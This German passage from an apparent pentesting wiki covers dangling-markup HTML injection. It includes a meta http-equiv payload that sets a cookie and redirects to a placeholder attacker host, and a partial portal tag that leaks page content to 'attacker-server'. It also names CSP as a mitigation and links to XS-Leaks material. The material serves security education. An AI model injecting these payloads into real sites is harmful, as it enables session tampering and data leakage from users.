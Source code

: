 ### \<meta-Missbrauch

Sie könnten **`meta http-equiv`** verwenden, um **mehrere Aktionen** durchzuführen, wie das Setzen eines Cookies: `<meta http-equiv="Set-Cookie" Content="SESSID=1">` oder eine Weiterleitung durchzuführen (in 5s in diesem Fall): `<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

Dies kann mit einer **CSP** bezüglich **http-equiv** ( `Content-Security-Policy: default-src 'self';`, oder `Content-Security-Policy: http-equiv 'self';` ) **verhindert** werden.

### Neuer \<portal HTML-Tag

Sie finden eine sehr **interessante Forschung** zu ausnutzbaren Schwachstellen des \<portal-Tags [hier](https://research.securitum.com/security-analysis-of-portal-element/).\
Zum Zeitpunkt des Schreibens müssen Sie den Portal-Tag in Chrome unter `chrome://flags/#enable-portals` aktivieren, sonst funktioniert es nicht.
```html
<portal src='https://attacker-server?
```
### HTML Leaks

Nicht alle Möglichkeiten, um Konnektivität in HTML zu leaken, sind für Dangling Markup nützlich, aber manchmal könnte es helfen. Überprüfen Sie sie hier: [https://github.com/cure53/HTTPLeaks/blob/master/leak.html](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

## SS-Leaks

Dies ist ein **Mix** aus **dangling markup und XS-Leaks**. Einerseits ermöglicht die Schwachstelle, **HTML** (aber kein JS) in eine Seite der **gleichen Herkunft** derjenigen, die wir angreifen werden, zu **injizieren**. Andererseits werden wir die Seite, in die wir HTML injizieren können, nicht direkt **angreifen**, sondern **eine andere Seite**.

{{#ref}}
ss-leaks.md
{{#endref}}

## XS-Search/XS-Leaks

XS-Search sind darauf ausgerichtet, **cross-origin Informationen zu exfiltrieren**, indem sie **Side-Channel-Angriffe** ausnutzen. Daher ist es eine andere Technik als Dangling Markup, jedoch missbrauchen einige der Techniken die Einbeziehung von HTML-Tags (mit und ohne JS-Ausführung), wie [**CSS Injection**](../xs-search/index.html#css-injection) oder [**Lazy Load Images**](../xs-search/index.html#image-lazy-loading)**.**

{{#ref}}
../xs-search/
{{#endref}}

## Brute-Force Detection List

{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/dangling_markup.txt
{{#endref}}
